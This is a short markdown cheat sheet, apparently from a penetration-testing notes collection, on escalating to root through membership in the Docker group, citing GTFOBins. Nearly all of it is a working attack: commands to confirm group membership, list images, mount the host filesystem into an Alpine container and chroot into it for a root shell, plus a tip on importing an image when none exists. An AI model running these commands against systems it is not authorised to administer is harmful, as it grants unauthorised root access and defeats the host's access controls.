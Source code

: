 # Docker Group Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/docker/

## Steps:

### 1) Confirm the user belongs in the docker group

    id

### 2) Check for images we can run

    docker image list

### 3) Get root shell

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh

## TIP: If there are no images on the machine, you can import one yourself and use this to achieve root!

Transfer the image to the target machine, then run

    docker image import alpine.tar.gz
